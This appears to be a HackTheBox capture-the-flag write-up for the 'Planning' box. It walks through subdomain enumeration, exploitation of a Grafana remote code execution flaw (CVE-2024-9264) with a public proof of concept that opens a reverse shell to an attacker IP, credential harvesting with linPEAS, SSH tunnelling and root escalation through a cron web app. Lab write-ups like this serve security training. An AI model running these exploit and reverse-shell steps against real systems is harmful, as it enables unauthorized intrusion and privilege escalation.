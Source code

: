 #  HackTheBox: Planning - Writeup
This easy-difficulty box involves discovering a vulnerable Grafana v11.0.0 subdomain and exploiting CVE-2024-9264 for initial access. After pivoting to the user enzo, an internal cronjob web app running as root is accessed via SSH tunneling. Abusing this app allows privilege escalation to root. The box combines web enumeration, real-world CVE usage, and creative privesc via scheduled tasks.


##  Enumeration

### Nmap Scan

We begin with an `nmap` scan, which reveals two open ports:  
- **22** (SSH)  
- **80** (nginx web server)

```bash
nmap -sCV -T4 10.10.11.68
```
### Directory Enumeration
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image1.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
```bash
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
```

### Subdomain Enumeration
So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
```bash
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image3.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

## Exploitation
Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image4.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image5.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.

```bash
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
```

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.
```bash
python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.x --reverse-port 1234
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image7.png)

## Post-Exploitation
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image8.png)

### linPEAS Enumeration (root User)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image9.png)

Able to SSH into enzo, the user flag is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image11.png)

### linPEAS Enumeration (enzo User)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image13.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image14.png)

### SSH Tunneling

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
```bash
ssh -L 8001:localhost:8000 enzo@10.10.11.68
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image16.png)

## Privelege Escalation

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image17.png)

After obtaining privileges we are able to obtain the root flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image18.png)
